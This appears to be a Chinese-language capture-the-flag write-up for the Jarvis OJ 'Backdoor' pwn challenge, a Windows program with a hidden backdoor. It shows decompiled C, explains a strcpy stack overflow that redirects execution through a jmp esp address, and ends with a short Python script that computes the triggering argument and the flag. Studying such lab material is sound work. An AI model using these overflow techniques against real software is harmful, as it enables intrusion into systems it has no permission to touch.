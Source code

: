 ```yaml
---
title: Jarvis OJ - Backdoor の Write-Up
date: 2020-08-18 14:44:56
categories:
- WriteUPs
- JarvisOJ
tags:
- PWN
- Stack
---
```

## Introduction

根据题目程序存在后门，某个参数可以触发该程序执行后门操作。这个程序是个exe程序，但在win10和win7虚拟机上均无法运行，最后在Win XP上按照提示下载了缺失的MSVCP100D.dll后终于得以成功运行。

<!-- more -->

## Analysis

一开始在hopper中反编译程序，虽然程序逻辑结构很清楚，但是代码可读性真是一言难尽......还是老老实实打开IDA吧。

```C#
signed int __cdecl wmain(int a1, int a2)
{
  char v3; // [esp+50h] [ebp-2C8h]
  char v4; // [esp+E1h] [ebp-237h]
  char v5; // [esp+E4h] [ebp-234h]
  char Source[4]; // [esp+100h] [ebp-218h]
  char v7; // [esp+104h] [ebp-214h]
  __int16 i; // [esp+108h] [ebp-210h]
  char Dest[2]; // [esp+10Ch] [ebp-20Ch]
  char Dst; // [esp+10Eh] [ebp-20Ah]
  char v11[25]; // [esp+110h] [ebp-208h]
  char v12[483]; // [esp+129h] [ebp-1EFh]
  __int16 v13; // [esp+30Ch] [ebp-Ch]
  LPSTR lpMultiByteStr; // [esp+310h] [ebp-8h]
  int cbMultiByte; // [esp+314h] [ebp-4h]

  cbMultiByte = WideCharToMultiByte(1u, 0, *(LPCWSTR *)(a2 + 4), -1, 0, 0, 0, 0);
  lpMultiByteStr = (LPSTR)sub_4011F0(cbMultiByte);
  WideCharToMultiByte(1u, 0, *(LPCWSTR *)(a2 + 4), -1, lpMultiByteStr, cbMultiByte, 0, 0);
  v13 = *(_WORD *)lpMultiByteStr;
  if ( v13 < 0 )
    return -1;
  v13 ^= 0x6443u;
  strcpy(Dest, "0");
  memset(&Dst, 0, 0x1FEu);
  for ( i = 0; i < v13; ++i )
    Dest[i] = 65;
  *(_DWORD *)Source = 2147108114;
  v7 = 0;
  strcpy(&Dest[v13], Source);
  qmemcpy(&v5, &unk_4021FC, 0x1Au);
  strcpy(&v11[v13], &v5);
  qmemcpy(&v3, &unk_402168, 0x91u);
  v4 = 0;
  strcpy(&v12[v13], &v3);
  sub_401000(Dest);
  return 0;
}
```

首先看下这个主函数。应该是接收键盘输入的内容，经过转换然后赋给v13，注意v13申明的是int 16，再将v13与0x6443异或。然后向Dest数组里填充v13数值个的ASCII值65也就是’A’。

再将2147108114即0x7ffa4512这个地址传到了Dest[v13]。而0x7ffa4512这个地址在windows上是一个万能的jmp esp（几乎所有的平台上这个地址都是jmp esp）。所以可以通过这个地址上的jmp esp指令控制程序跳转到某一个函数的地址上去执行设定好的函数。

再往下走，这个函数最后调用Dest是将其作为sub_401000函数的参数，再去找一下这个函数：

```C#
int __cdecl sub_401000(char *Source)
{
  char Dest[2]; // [esp+4Ch] [ebp-20h]
  int v3; // [esp+4Eh] [ebp-1Eh]
  int v4; // [esp+52h] [ebp-1Ah]
  int v5; // [esp+56h] [ebp-16h]
  int v6; // [esp+5Ah] [ebp-12h]
  int v7; // [esp+5Eh] [ebp-Eh]
  int v8; // [esp+62h] [ebp-Ah]
  int v9; // [esp+66h] [ebp-6h]
  __int16 v10; // [esp+6Ah] [ebp-2h]

  strcpy(Dest, "0");
  v3 = 0;
  v4 = 0;
  v5 = 0;
  v6 = 0;
  v7 = 0;
  v8 = 0;
  v9 = 0;
  v10 = 0;
  strcpy(Dest, Source);
  return 0;
}
```

果然在这个函数里发现了溢出漏洞，在strcpy(Dest, Source)语句这里。在主函数中Source申明的是char Source[4]，而Dest申明的是char Dest[2]，strcpy函数把一个长字符赋给里一个短字符，典型的溢出漏洞。

根据Dest的大小，需要0x20的padding加上4个字节的返回地址，一共0x24字节。这样程序执行的时候会将0x7ffa4512覆盖到Dest最后4字节也就是strcpy函数的返回地址，从而控制程序跳转触发后门。

所以我们需要控制的是v13的值为0x24即可，再注意一下机器的大小端问题以及题目要求的给出参数小写SHA256值，直接给出EXP：

```Python
import hashlib

value = chr(0x24 ^ 0x43)
value += chr(0 ^ 0x64)

print "value: " + value
print "flag: PCTF{" + hashlib.sha256(value).hexdigest() + "}"
```

执行之后就可以得到出发后门的参数以及flag：

![](/img/Backdoor/Backdoor1.png)

后门程序在Win XP中复现成功，弹出了计算器：

![](/img/Backdoor/Backdoor2.png)
